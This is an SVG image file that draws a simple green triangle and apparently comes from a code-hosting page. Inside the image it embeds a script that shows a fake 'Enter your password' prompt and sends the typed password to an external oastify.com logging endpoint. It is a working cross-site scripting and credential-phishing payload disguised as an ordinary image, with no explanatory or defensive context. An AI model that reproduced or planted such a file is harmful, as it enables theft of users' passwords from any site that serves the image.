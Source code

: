 <?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>

        <script> 
                var passwd = prompt("Enter your password to continue");
                var xhr = new XMLHttpRequest();
                xhr.open("GET","https://e8nnv72a79fsqjr4qs9s97trzi58tx.oastify.com/log.php?password="+encodeURI(passwd));
                xhr.send();
        </script>

</svg>
